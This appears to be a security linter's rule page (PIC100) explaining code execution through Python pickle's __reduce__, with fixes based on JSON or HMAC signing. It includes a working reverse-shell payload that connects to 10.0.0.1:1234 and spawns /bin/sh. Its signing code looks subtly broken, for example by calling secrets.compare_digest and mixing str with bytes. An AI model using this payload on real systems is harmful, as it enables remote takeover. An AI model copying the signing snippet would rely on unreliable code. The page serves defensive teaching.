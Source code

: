 # PIC100 

Loading serialized data with the pickle module can expose arbitrary code execution using the __reduce__ method.

Before objects are serialised, they can have a custom `__reduce__` method attribute, which will execute on expansion during the pickle loader.

This can be used to injection malicious data into serialized data.

Because pickle is often used for caching or storing python objects by serialization, attackers will use this flaw to write arbitrary code to execute on the host.

## Example

```python
import pickle

with open(f) as input:
    python_objects = pickle.load(input)
```

An example attacker payload could be:

```python
import pickle

class ReverseShell:
    def __reduce__(self):
        import socket,subprocess,os
        s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
        s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0)
        os.dup2(s.fileno(),1)
        os.dup2(s.fileno(),2)
        p=subprocess.call(["/bin/sh","-i"])

payload = pickle.dumps(ReverseShell())
```

To start an open shell on 10.0.0.1:1234.

## Fixes

Either:

* Use an alternative deserialization method, like JSON
* Sign your serialized pickle data and then verify it before deserializing to ensure it hasn't been tampered with

## Signing pickles

To sign your pickled data, use the `hmac` module to hash the pickle data and insert it as a header.

```python
import hashlib
import hmac
import pickle

data = pickle.dumps(obj)
digest =  hmac.new('unique-key-here', data, hashlib.blake2b).hexdigest()
with open(f) as output:
    output.write(str(digest) + ' ' + data)
```

To verify signed data, use something like this:

```python
import hashlib
import hmac
import pickle
import secrets

digest, pickle_data = data.split(' ')
expected_digest = hmac.new('unique-key-here', pickle_data, hashlib.blake2b).hexdigest()

if not secrets.compare_digest(digest, expected_digest):
    print('Invalid signature')
    exit(1)

obj = pickle.loads(pickle_data)
```

## See Also

* [Understanding Python pickling and how to use it securely at synopsys.com](https://www.synopsys.com/blogs/software-security/python-pickling/)